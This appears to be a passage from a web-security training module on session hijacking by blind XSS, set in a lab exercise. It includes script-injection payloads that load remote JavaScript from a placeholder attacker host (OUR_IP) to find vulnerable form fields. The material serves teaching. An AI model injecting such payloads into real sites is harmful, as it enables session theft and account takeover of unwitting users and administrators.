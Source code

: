 
<h1>Session Hijacking</h1>
<hr/>
<p>Modern web applications utilize cookies to maintain a user's session throughout different browsing sessions. This enables the user to only log in once and keep their logged-in session alive even if they visit the same website at another time or date. However, if a malicious user obtains the cookie data from the victim's browser, they may be able to gain logged-in access with the victim's user without knowing their credentials.</p>
<p>With the ability to execute JavaScript code on the victim's browser, we may be able to collect their cookies and send them to our server to hijack their logged-in session by performing a <code>Session Hijacking</code> (aka <code>Cookie Stealing</code>) attack.</p>
<hr/>
<h2>Blind XSS Detection</h2>
<p>We usually start XSS attacks by trying to discover if and where an XSS vulnerability exists. However, in this exercise, we will be dealing with a <code>Blind XSS</code> vulnerability. A Blind XSS vulnerability occurs when the vulnerability is triggered on a page we don't have access to.</p>
<p>Blind XSS vulnerabilities usually occur with forms only accessible by certain users (e.g., Admins). Some potential examples include:</p>
<ul>
<li>Contact Forms</li>
<li>Reviews</li>
<li>User Details</li>
<li>Support Tickets</li>
<li>HTTP User-Agent header</li>
</ul>
<p>Let's run the test on the web application on (<code>/hijacking</code>) in the server at the end of this section. We see a User Registration page with multiple fields, so let's try to submit a <code>test</code> user to see how the form handles the data:</p>
<img class="website-screenshot" data-url="http://SERVER_IP:PORT/hijacking/index.php" src="/storage/modules/103/xss_blind_test_form.jpg"/>
<p>As we can see, once we submit the form we get the following message:
<img class="website-screenshot" data-url="http://SERVER_IP:PORT/hijacking/index.php" src="/storage/modules/103/xss_blind_test_form_output.jpg"/></p>
<p>This indicates that we will not see how our input will be handled or how it will look in the browser since it will appear for the Admin only in a certain Admin Panel that we do not have access to. In normal (i.e., non-blind) cases, we can test each field until we get an <code>alert</code> box, like what we've been doing throughout the module. However, as we do not have access over the Admin panel in this case, <code>how would we be able to detect an XSS vulnerability if we cannot see how the output is handled?</code></p>
<p>To do so, we can use the same trick we used in the previous section, which is to use a JavaScript payload that sends an HTTP request back to our server. If the JavaScript code gets executed, we will get a response on our machine, and we will know that the page is indeed vulnerable.</p>
<p>However, this introduces two issues:</p>
<ol>
<li>
<code>How can we know which specific field is vulnerable?</code> Since any of the fields may execute our code, we can't know which of them did.</li>
<li>
<code>How can we know what XSS payload to use?</code> Since the page may be vulnerable, but the payload may not work?</li>
</ol>
<hr/>
<h2>Loading a Remote Script</h2>
<p>In HTML, we can write JavaScript code within the <code>&lt;script&gt;</code> tags, but we can also include a remote script by providing its URL, as follows:</p>
<pre><code class="language-html">&lt;script src="http://OUR_IP/script.js"&gt;&lt;/script&gt;
</code></pre>
<p>So, we can use this to execute a remote JavaScript file that is served on our VM. We can change the requested script name from <code>script.js</code> to the name of the field we are injecting in, such that when we get the request in our VM, we can identify the vulnerable input field that executed the script, as follows:</p>
<pre><code class="language-html">&lt;script src="http://OUR_IP/username"&gt;&lt;/script&gt;
</code></pre>